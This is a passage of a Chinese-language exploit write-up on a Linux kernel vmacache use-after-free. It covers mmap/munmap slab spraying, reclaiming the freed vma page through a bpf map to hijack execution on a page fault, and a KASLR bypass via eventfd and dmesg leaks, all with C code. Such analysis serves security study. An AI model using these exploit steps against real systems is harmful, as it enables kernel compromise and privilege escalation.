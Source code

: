 之后我们申请5000个mmap映射，根据之前的分析，在slab分配器中也分配了5000个vm_area_struct。

```
for (unsigned long i=0; i&lt;VMA_SPAM_COUNT; i++) `{`
    mmap(VMA_SPAM_AREA + i * VMA_SPAM_DELTA, PAGE_SIZE, PROT_RW, MAP_PRIV_ANON, -1, 0);
`}`
```

紧接着我们mummap VMA_SPAM_COUNT/2个映射。释放了5000个vm_area_struct到slab的freelist上。这时，mm-&gt;vmacache_seqnum已经被溢出变成了0。而且current-&gt;vmacache缓存数组保存着我们最后一次mummap所释放的vma结构。由于是但线程，所以并没有flush vmacache数组给了我们use after free的条件。

```
for (unsigned long i=0; i&lt;VMA_SPAM_COUNT/2; i++) `{`
    munmap_noadjacent(VMA_SPAM_AREA + i * VMA_SPAM_DELTA, PAGE_SIZE);
`}`
```

之后，我们在没有调用任何vma_find的情况下，马上申请新的线程，在新线程中：<br>
我们首先munmap掉5000个映射，也就是释放了5000个vma struct，这样，我们会将整个的vma slab全部变成free，从而将这个slab 释放回伙伴系统。

```
for (unsigned long i=VMA_SPAM_COUNT/2; i&lt;VMA_SPAM_COUNT; i++) `{`
    munmap_noadjacent(VMA_SPAM_AREA + i * VMA_SPAM_DELTA, PAGE_SIZE);
`}`
```

之后们通过bpf map，将包含着我们主线程vmacache缓存数组中没有flush的vma结构的一整页全部申请出来，这样就可以通过bpf map去修改还没有flush的vma结构。之后我们触发一个缺页异常，回在主线程中调用我们的这个vma结构中的异常处理程序，从而实现执行流程的劫持。

```
struct bpf_map_create_args bpf_arg = `{`
    .map_type = 2,
    .key_size = 4,
    .value_size = 0x1000,
    .max_entries = 1024
`}`;
int bpf_map = syscall(321, 0, (unsigned long)&amp;bpf_arg, sizeof(bpf_arg), 0, 0, 0);

sendfd(0, bpf_map);
```

再来看bpf的特性：bpf会将分配的内存清空。这个特性正好帮助我们触发warn_on_once,以此来将信息dump到dmesg中，方便我们读取。<br>
bpf具体的用法：<br>
调用syscall(__NR_bpf, BPF_MAP_CREATE, &amp;attr, sizeof(attr))申请创建一个map，在attr结构体中指定map的类型、大小、最大容量等属性。<br>
之后通过bpf函数带BPF_MAP_UPDATE_ELEM参数去更新内存的内容。

### <a class="reference-link" name="%E5%A6%82%E4%BD%95%E7%BB%95%E8%BF%87kaslr%EF%BC%9F"></a>如何绕过kaslr？

如果写入eventfd将会触发usercopy，使R8仍然包含指向eventfd_fops结构的指针

```
syscall(1, sync_fd, 0x7fffffffd000, 8, 0, 0, 0);
```

并且我们通过vmacache_find()去搜索0x7fffffffd000是否在我们的vmacache缓存中。
